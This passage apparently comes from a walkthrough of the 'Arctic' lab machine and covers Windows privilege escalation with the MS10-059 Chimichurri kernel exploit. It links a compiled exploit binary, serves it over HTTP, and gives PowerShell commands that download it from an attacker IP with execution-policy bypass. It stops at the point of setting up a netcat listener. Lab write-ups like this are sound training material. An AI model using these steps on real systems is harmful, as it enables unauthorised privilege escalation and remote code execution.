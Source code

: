 We see multiple exploits that we can attempt without metasploit, and it seems that MS10-059 is the one that works

We can simply download the executable for this exploit from this link:

[windows-kernel-exploits/MS10-059: Chimichurri/Compiled at master · egre55/windows-kernel-exploits](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled)

After downloading it, we can setup a simple HTTP server with the following command:

```powershell
python3 -m http.server 80
```

On our target machine shell, we can then run the following commands:

```powershell
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.10.16.13/Chimichurri.exe" >>wget.ps1
echo $file = "exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

To verify that we have successfully downloaded the file (exploit.exe), we can do a simple dir:

![Arctic%20f41e652759f84642a43c44e8e094704e/Untitled%2026.png](Arctic%20f41e652759f84642a43c44e8e094704e/Untitled%2026.png)

Lastly, all we have to do is set up a netcat listener and run the exploit.exe:
